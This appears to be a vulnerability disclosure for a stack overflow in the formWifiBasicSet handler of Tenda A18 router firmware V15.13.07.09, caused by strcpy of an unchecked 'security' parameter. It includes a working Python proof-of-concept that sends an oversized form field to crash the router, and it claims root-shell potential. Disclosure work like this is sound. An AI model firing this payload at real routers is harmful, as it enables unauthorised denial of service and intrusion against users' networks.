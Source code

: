 # Tenda A18 V15.13.07.09 Stack overflow vulnerability by formWifiBasicSet

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

I have verified that **Tenda A18 V15.13.07.09** products have stack overflow vulnerability, and other series products have not been verified for the time being.

## Vulnerability details

`formWifiBasicSet`

![image-20230804105106491](./img/image-20230804105106491.png)

`formWifiBasicSet` gets the parameter **security** from the user input, but does not verify the length of the user input.

![image-20230804104952093](./img/image-20230804104952093.png)

After that, the function copies **security** directly into **param** via the `strcpy` function, resulting in a stack overflow vulnerability.



## POC

```python
import requests


def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'security': 'a' * 0x1000}

headers = {
    'Host': '192.168.0.1',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.0.1/goform/WifiBasicSet'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
```

By running the poc, you can see the crash.

With careful construction of the exp, we can finally get the root shell.















